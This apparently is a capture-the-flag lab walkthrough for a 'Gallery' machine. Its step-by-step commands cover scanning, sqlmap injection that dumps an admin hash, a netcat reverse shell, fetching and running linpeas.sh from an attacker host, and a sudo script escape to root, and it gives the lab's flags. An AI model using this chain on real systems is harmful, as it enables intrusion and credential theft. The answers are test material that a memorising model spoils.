

# Gallery



## Task 1 Deploy and get a Shell

#### How many ports are open?

```bash
nmap -n -sC -sV 10.10.140.229
```



`2`


#### What's the name of the CMS?


`Simple Image Gallery`


#### What's the hash password of the admin user?

```bash
gobuster dir -u http://10.10.140.229/ \
             -w /usr/share/dirb/wordlists/common.txt \
             -t64
```


```bash
sqlmap -u 'http://10.10.140.229/gallery/?page=albums/images&id=2' -p id \
       --cookie PHPSESSID=k26eekanikq82rd185amr3kf4k --dbs
sqlmap -u 'http://10.10.140.229/gallery/?page=albums/images&id=2' -p id \
       --cookie PHPSESSID=k26eekanikq82rd185amr3kf4k --dbms MySQL \
       --technique U -D gallery_db --tables
sqlmap -u 'http://10.10.140.229/gallery/?page=albums/images&id=2' -p id \
       --cookie PHPSESSID=k26eekanikq82rd185amr3kf4k --dbms MySQL \
       --technique U -D gallery_db -T users --dump
```



`a228b12a08b6527e7978cbe5d914531c`


#### What's the user flag?


```bash
nc -nvlp 4444
python3 -c 'import pty; pty.spawn("/bin/bash")'
find / -type f -name user.txt 2>/dev/null
cat /home/mike/user.txt
ls -l /home/mike/user.txt
```


```bash
wget http://10.6.9.176/linpeas.sh -P /tmp
bash /tmp/linpeas.sh
```


```bash
cat /var/backups/mike_home_backup/.bash_history
su - mike
cat user.txt
```



`THM{af05cd30bfed67849befd546ef}`


## Task 2 Escalate to the root user

```bash
sudo -l
cat /opt/rootkit.sh
```


```bash
export TERM=xterm
Ctrl+X
sudo /bin/bash /opt/rootkit.sh
^R /root/root.txt
```



`THM{ba87e0dfe5903adfa6b8b450ad7567bafde87}`


## Xmind


